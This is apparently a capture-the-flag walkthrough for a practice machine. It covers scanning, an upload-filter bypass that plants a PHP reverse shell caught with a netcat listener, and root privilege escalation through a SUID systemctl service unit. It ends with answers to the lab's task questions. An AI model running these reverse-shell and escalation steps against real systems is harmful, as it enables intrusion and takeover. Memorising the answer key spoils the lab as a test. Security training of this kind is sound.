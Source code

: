 Hi!

Let's start!

1. To begin with, we must classically connect to a VPN using OpenVPN.
Go to our profile, download the file to connect, go to "/Downloads" and create the new
terminal:

$ openvpn <Name>.ovpn 

2. After that, we open the quest no. 1 and launch the instance (Deploy).

3. After all this, we can slowly start. The first thing we do is scan the machine:

$ nmap -sC -sV -T4 -A <IpAdress> -oA nmap.nmap

4. Scanning show us  the Apache server is running on port "3333". So we type in your browser
Address: Ip: 3333 and we look at what's on it.

5. Now, due to the fact that searching manually for paths on the page can be very monotonous and ineffective, we will use dirb,
dirbuster, wfuzz, gobuster. Depending on what is more convenient for you. I will use a gobuster:

$ gobuster dir -u http://<ip>:3333/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

6. After a while we find the path "/internal", so we check to see what's there. (Ip: 3333 / internal). We can see that on the site
we can send files to the server. The first thing we check is what files can be sent. Mostly cases can be omitted.

7. Since I'm on the "Kali" system, I will use PHP shell. Copy reverse-shell to your working directory:

$ cp /usr/share/webshells/php/php-reverse-shell.php .

8. We now need to edit the file to our Ip and Port address. The Ip address is the address that appears after "ifconfig" is entered
next to "tun0" (your ip in VPN). The port set on the "hacker" 4444. ($ ip, $ port). And let's save the file.
(I used the "nano" editor, but you can use the editor that is more convenient for you, e.g. "vi")

9. To intercept reverse shell it would be nice to listen to the port we set up. We will use "NetCat" for this:

$ nc -nlvp 4444 (<--port)

10. You can make copies of this file to different ".html" ".php" ".php1" ".php2" ".php5" ".phtml" paths. I checked
trying to upload files manually, but you can use for example "BurpSuite".

11. After checking, the server managed to send the file with the extension ".phtml". So we check where the file was uploaded to
to do this, add "/ uploads" to the path and see reverse file.

12. We click on the file on the server (in the browser) and in the terminal where we started netcat we see the connection and can start issuing commands.

13. Typing for example "id" "whoami" we can see our permissions.

14. At this point, we need to see what we are authorized to do when entering e.g. home:

$ cd /home
$ ls
$ cd bill
$ cat user.txt

15. The first "flag" for the user was displayed.

16. Now we are looking for SUID binaries. SUID stands for the permissions of a given user to certain files:

$ find / -user root -perm -4000 -print 2>/dev/null

17. We now see a few files with the SUID flag set.

18. Now we need to make an attack called "Privilege Escalation" to elevate our system privileges. By scanning
the SUID flag we found a file named "systemctl".

Systemctl is a binary file that controls user interfaces and is responsible e.g. for services run during boot.
By default, systemctl will search files in "/ etc / system / systemd" in order to search and service units.

19. On this machine we cannot create new files in the paths belonging to root, but we can change the variables environment in an already existing one, so we can do PrivEsc.

20. The first thing we do is create an environment variable:

$ priv=$(mktemp).service

Now we need to create a unit file and assign it to an environment variable:

$ echo '[Service]
ExecStart=/bin/bash -c "cat /root/root.txt > /opt/flag"
[Install] 
WantedBy=multi-user.target' > $priv

( Don't be afraid to use enter until the end of '<- then you can continue typing on a new line. )

21. What we just did is create a service that will execute "Bash", then read the falge from root's root directory and save it to the file / flag in the "/ opt" directory.

22. Now we need to fire the unit file with "systemctl".

$ /bin/systemctl link $priv

$ /bin/systemctl enable --now $priv

23. Now we can see the flag file in the directory "/opt".

$ cat flag

24. That's it. We just executed the command for the root user.

// Completing the headings

Task 2.

1) 6

2) 3.5.12

3) 400

4) DNS

5) Ubuntu

6) 3333

Task 3.

1) /internal/

Task 4.

1) .php

2) .phtml

3) bill

4) YOUR USER FLAG 

Task 5.

1) /bin/systemctl

2) YOUR ROOT FLAG 
